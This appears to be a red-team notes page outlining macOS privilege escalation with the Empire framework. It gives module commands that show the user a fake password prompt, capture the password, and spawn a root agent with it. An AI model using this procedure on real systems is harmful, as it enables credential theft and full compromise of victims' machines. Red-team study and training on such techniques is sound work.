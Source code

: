 # Privilege escalation on macOS

## Attack tree

```text
1 Empire agent running on macOS (AND)
2 Interact with agent
    2.1 > usemodule (double tab to list modules available) (AND)
    2.2 > usemodule collection/osx/prompt (not opsec safe, we'll be leaving traces)
    2.3 > execute (and copy user password)
    2.4 > Back
    2.5 > usemodule privesc/multi/sudo_spawn (executes another stager with admin priviliges, and requires a password)
    2.6 > info (to see all options)
    2.7 > set Password [user password]
    2.8 > set Listener [value] (http in our case)
    2.9 > execute

```

## Notes

* This method does not rely on programs and exploits and is highly likely to work as users are trained to enter their passwords regularly for the Apple Store. A new agent appears, one that is root. 
* This example uses macOS but a similar process works for other OS as well. The modules will be different tnough.
* In horizontal privilege escalation an adversary expands privileges by taking over another account.
* In vertical privilege escalation an attacker attempts to gain more permissions or access with an existing compromised account.

## Cheatsheets

* [Empire wiki](https://bc-security.gitbook.io/empire-wiki/)